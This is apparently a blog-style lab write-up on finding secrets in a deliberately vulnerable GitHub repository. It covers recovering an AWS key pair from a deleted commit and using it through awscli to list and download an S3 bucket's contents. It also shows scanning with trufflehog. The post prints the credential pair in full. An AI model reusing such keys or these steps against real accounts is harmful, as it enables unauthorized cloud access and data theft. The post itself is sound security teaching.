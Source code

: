 ```yaml
---
layout: post
title:  "Hunt for Secrets in Github Repositories"
date:   2024-01-07 21:39:54 +0530
---
```


# Initial Entry Point
  

| Repo Name |
| --- |
| [https://github.com/huge-logistics/cargo-logistics-dev](https://github.com/huge-logistics/cargo-logistics-dev) |

  

## Scenario

  

While conducting OSINT on a lesser-known dark web forum as part of assessing your client's threat landscape, you stumble upon a thread discussing high-value targets. Among the chaos of links and boasts, a user casually mentions discovering an intriguing GitHub repository belonging to your client, the international titan, Huge Logistics. A couple of underground researchers hint at having found something but remain cryptic. Your instincts tell you there's more to uncover. Your objective? Dive deep into this repository, trace any associated infrastructure, and uncover any vulnerabilities before they become tomorrow's headline. The clock is ticking. Will you outsmart the adversaries?

  

## To be more clear

We have to assess the organization github repository for any possibility of credentials leakage where we gonna try it out in both the manual and automated way 

  

## Let’s start out with the manual approach 

  

First and foremost, we will clone the github repository using the command `git clone https://github.com/huge-logistics/cargo-logistics-dev`and let’s start out our analysis process

  

```sh
nits@FWS-CHE-LT-8869 pwnedlabs.io % git clone https://github.com/huge-logistics/cargo-logistics-dev
Cloning into 'cargo-logistics-dev'...
remote: Enumerating objects: 1578, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 1578 (delta 2), reused 2 (delta 1), pack-reused 1571
Receiving objects: 100% (1578/1578), 50.12 MiB | 4.96 MiB/s, done.
Resolving deltas: 100% (448/448), done.
```

  

After cloning and going into that repo, we can run `git log`  in order to check for any sensitive actions being performed like where they had deleted or removed any files and found there is action been performed which is `Delete log-s3-test directory` and with commit hash as `ea1a7618508b8b0d4c7362b4044f1c8419a07d99`

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % git log
commit 327256a97593085dcee75e70df5f80c51a30c267 (HEAD -> main, origin/main, origin/HEAD)
Author: Ian Austin <iandaustin@outlook.com>
Date:   Wed Jul 5 17:56:49 2023 +0100

    Update

commit ea1a7618508b8b0d4c7362b4044f1c8419a07d99
Author: egre55 <34132245+egre55@users.noreply.github.com>
Date:   Wed Jul 5 17:46:16 2023 +0100

 Delete log-s3-test directory
```

  

Suspecting the particular action, we can able to view the log using the command `git show`  along with the commit hash which shows that there is big change been made and where the `AWS Access key`  and `Secret key`  being disclosed in the following filename `a/log-s3-test/log-upload.php`

  

![]({{ site.baseurl }}/assets/images/gitleaks-1.png) 

  

Well, let’s configure the following credentials through `awscli`  and with custom profile called `gitleaks`  

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws configure --profile gitleaks
AWS Access Key ID [None]: AKIAWHEOTHRFSGQITLIY
AWS Secret Access Key [None]: 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
Default region name [None]: us-east-1
Default output format [None]: 
```

  

After configuring the credentials, we found that is credentials belongs to `dev-test`  through `aws sts`  module 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws sts get-caller-identity --profile gitleaks
{
    "UserId": "AIDAWHEOTHRF24EMR3SXJ",
    "Account": "427648302155",
    "Arn": "arn:aws:iam::427648302155:user/dev-test"
}
```

  

What can we do with that credentials ? we know that it belongs to user called `dev-test`  but onething to note is we didn’t observe that this user have access to s3 bucket named `huge-logistics-transact` where you can check it into the git logs again and this are the lines of the code for your reference if you feel lazy to scroll up 

  

```diff
-// Send a PutObject request and get the result object.
-$key = 'transact.log';
-
-$result = $s3->putObject([
-       'Bucket' => 'huge-logistics-transact',
-       'Key'    => $key,
-       'SourceFile' => 'transact.log'
-]);
-
-// Print the body of the result by indexing into the result object.
-var_dump($result);
```

  

Enumerating s3 bucket using `aws s3`  module in `aws cli`  with the following command `aws s3 ls s3://huge-logistics-transact` and well we forgot we need to include `--profile gitleaks`  where we initially created a custom profile with the leaked credentials we have.. we found our `flag.txt`  here and through the `aws s3 cp`  we can copy it to our local machine 

  

```sh
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 ls s3://huge-logistics-transact --profile gitleaks
2023-07-05 21:23:50         32 flag.txt
2023-07-04 22:45:47          5 transact.log
2023-07-05 21:27:36      51968 web_transactions.csv
nits@FWS-CHE-LT-8869 cargo-logistics-dev % aws s3 cp s3://huge-logistics-transact/flag.txt ./ --profile gitleaks
download: s3://huge-logistics-transact/flag.txt to ./flag.txt    
nits@FWS-CHE-LT-8869 cargo-logistics-dev % cat flag.txt
fe108d6a1a0937b0a7620947a678aabf%     
```

  

Well, It doesn’t end here we can also look into file named `web_transcations.csv`  and found that it is disclosing some kind of sensitive informations like `ip address, name and id of the user`  which is obviously not meant to be 

  

![]({{ site.baseurl }}/assets/images/gitleaks-2.png) 
  

  

## Automated way of finding the leaks 

  

We can use a tool called `trufflehog`  well In my case, I’m using MacOS where you can install using the command `brew install trufflehog`  or you can also use `gitleaks`

  

![]({{ site.baseurl }}/assets/images/gitleaks-3.png) 


  

Now run the following trufflehog git `https://github.com/huge-logistics/cargo-logistics-dev` and In the matter of seconds, we found our verified results with the valid username that those credentials belongs to well in our case, It is `dev-test` 

  

![]({{ site.baseurl }}/assets/images/gitleaks-4.png) 
 

  

Well the learning outcome is , That’s how we can analyse the organization github repo which are exposed externally for secret keys and In conclusion, we have to reduct our keys if you are deleting the file and rotate the leaked credentials